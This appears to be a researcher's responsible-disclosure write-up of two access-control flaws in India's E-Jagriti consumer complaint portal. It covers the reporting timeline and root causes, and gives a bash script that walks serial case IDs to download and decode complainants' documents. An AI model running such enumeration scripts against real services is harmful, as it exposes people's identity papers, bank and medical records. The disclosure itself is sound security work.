 ```yaml
---
title: E-Jagriti portal Vulnerabilities 2025
date:
    created: 2025-08-14
    updated: 2025-09-12
---
```


The EJagriti portal (<https://e-jagriti.gov.in>), which is an upgrade of
e-daakhil portal, is mandatory for consumer complaint filing and tracking.
Any complaint has to be uploaded on this portal before submitting it to the
consumer commission registry. It is developed and maintained by NIC(<https://nic.gov.in>)
and content owned by the Department Of Consumer Affairs, Ministry Of Consumer Affairs,
Food & Public Distribution, Government Of India

These vulnerabilities allowed access to all case
documents (including sensitive information such as ID proofs, affidavits with
sign, complaint details, and depending on the case: medical records, bank
details, purchase details, land records etc. ) in a trivial manner. Further,
the case reference ID, being a serially increasing number, allowed serial
access to all other users' case documents.

Summary of the vulnerabilities

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [CaseFilingDocumentDetails](#1-casefilingdocumentdetails) | 30 May 2025 | Partial fix before 17 June. Full fix never confirmed to me. Guessing July | 18-47 | 38480225 |
| 2  | [getAllComplainantRespondantDetails](#2-getallcomplainantrespondantdetails) | 30 May 2025 | Partial fix before 17 June. Full fix never confirmed to me. Guessing July | 18-47 | 38480225 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper
  Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper
  Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

In my <https://pgportal.gov.in> complaint and appeal, I was assured that after fixing
the issue, they will reach out to me for verification. But that hasn't
happened as of the date of 12 September 2025. In a public "jansunwai" in the
last week of August, the e-jagriti officers confirmed to me that they have
fixed the issue and I can proceed with the public release of this report.

### 1. CaseFilingDocumentDetails

This API accepted a query parameter `fillingReferenceNumber` and retrieves
details about the case filing documents, masked as `$$$$`. This case
reference is simply a date in format `YYYYMMDD` followed by a 4 digit
serially increasing number, xxxx starting from 0001.

This API returned the following files:

1. the memo of parties which contains PII of the complainant, address, phone
number, email ID, etc.,
2. complaint itself which contains sensitive information like bank account details,
Aadhaar number, policy number, income information,
3. Signed annexures which have identity proofs, signature, affidavit, etc.
4. Judgement and orders related to the case.
5. Any replies or rejoinders filed by the complainant or the opposite party.

Simply opening this URL in the browser was enough

```bash title="sample_urls.sh" linenums="1"
https://e-jagriti.gov.in/services/case/caseFilingService/v2/getCaseFillingDocumentDetails?fillingReferenceNumber=$$$$
```

However, for decoding the base64-encoded files, this is a sample script.
The output contained an array of objects (accessible via `jq` (<https://jqlang.org/>))
which had base64 encoded file, which can be decoded to get the actual PDF or image file.

```bash title="sample_script.sh" linenums="1" hl_lines="1 4 12"
for reference in {$$$$$$$$..$$$$$$$$}; do
    timestamp=$(date '+%F_%T')
    outname="output_doc_${reference}_${timestamp}"
    curl -v 'https://e-jagriti.gov.in/services/case/caseFilingService/v2/getCaseFillingDocumentDetails?fillingReferenceNumber=$$$$'"$reference" \
    -o "${outname}.json"

    jq '.' "${outname}.json" > "${outname}_pretty.json"

    jq -r '.data.caseFillingDocumentDetailsResponseList[] | "\(.fileName)\t\(.fileContent)"' "${outname}.json" | while IFS=$'\t' read -r fileName fileContent; do
        echo "${fileContent}" > "${outname}_files_${fileName}.txt"
        base64 --decode "${outname}_files_${fileName}.txt" > "${outname}_files_${fileName}.pdf"
    done
done
```

### 2. getAllComplainantRespondantDetails

This API differs from the above in that this output is machine readable JSON
text. The above API returns a document which contained the document.

This API returned the following data:

1. the personal contact details of parties which contained address, phone
number, email ID, etc.

```bash title="sample_urls.sh" linenums="1"
https://e-jagriti.gov.in/services/case/caseFilingService/v2/getAllComplainantRespondantDetails?filingReferenceNumber=$$$$
```
